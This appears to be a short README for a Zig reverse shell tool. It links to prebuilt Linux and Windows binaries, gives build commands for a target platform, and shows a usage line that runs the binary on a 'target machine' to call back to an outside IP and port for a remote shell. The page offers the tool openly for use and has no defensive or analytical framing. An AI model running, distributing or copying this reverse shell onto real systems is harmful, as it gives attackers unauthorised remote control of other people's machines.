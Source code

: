 # Zig Reverse Shell 

## Download

Get the binary for your target platform.

Linux: [Download](https://github.com/hideckies/zig-revshell/releases/download/0.0.2/revshell-linux-x86_64)  
Windows: [Download](https://github.com/hideckies/zig-revshell/releases/download/0.0.2/revshell-windows-x86_64.exe)

<br />

## Build from Source

Clone the repository and build for your target platform:

```sh
# Linux target
zig build -Dtarget=x86_64-linux

# Windows target
zig build -Dtarget=x86_64-windows
```

After that, the executable is generated under `zig-out/bin` directory.

<br />

## Usage

Execute the binary in your target machine:

```sh
./revshell 10.0.0.1 4444
```
a